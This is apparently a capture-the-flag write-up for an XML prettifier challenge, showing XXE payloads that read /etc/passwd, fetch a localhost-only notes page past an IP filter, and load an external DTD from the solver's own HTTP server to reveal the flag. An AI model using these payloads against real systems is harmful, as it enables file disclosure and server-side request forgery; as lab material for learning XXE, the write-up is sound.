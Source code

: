 # XML Prettifier (4)

Hi, packet inspector,

some former employe of Mysterious Delivery Ltd. has created prettifier for XML code. It is polite to provide information to the AI in nicely formatted XML, isn't it? Rumors say that the employee also left some crucial information somewhere on the web.

Find the crucial information on webpage [http://prettifier.mysterious-delivery.tcc:50000](http://prettifier.mysterious-delivery.tcc:50000).

May the Packet be with you!

## Hints

- Use VPN to get access to the web.

## Solution

After visiting the page we can see that there are 2 paths, [/prettier](http://prettifier.mysterious-delivery.tcc:50000/prettier) and [/notes](http://prettifier.mysterious-delivery.tcc:50000/notes).

![prettier](prettier.png)

> **Forbidden**, IP filter is active, content is accessible only from localhost.

I guess we probably need to get content from [/notes](http://prettifier.mysterious-delivery.tcc:50000/notes) if we want the flag.

![notes](notes-forbidden.png)

Let's see what this XML prettier can do.

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<element>&xxe;</element>
```

![etc/passwd](etc-passwd.gif)

Getting `/etc/passwd` is possible, but it is useless for us. What about the [/notes](http://prettifier.mysterious-delivery.tcc:50000/notes) page?

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://localhost:50000/notes"> ]>
<element>&xxe;</element>
```

![notes fail](notes-fail.gif)

We ran into parsing errors. But we can solve this problem, [this page](https://dzone.com/articles/xml-external-entity-xxe-limitations) helped me a lot to understand how to solve it.

First, we have to make [.dtd file](attack.dtd):

```dtd
<!ENTITY % file SYSTEM "http://localhost:50000/notes">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

![dtd file](file-for-attack.png)

Second, we have to make an http server in our directory with [.dtd file](attack.dtd).

```
> python3 -m http.server

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now we're going to try it again, just replace `http://localhost:50000/notes` with our server.

![notes success](notes-success.gif)

`FLAG{GG53-5U3w-VT8F-qB31}`
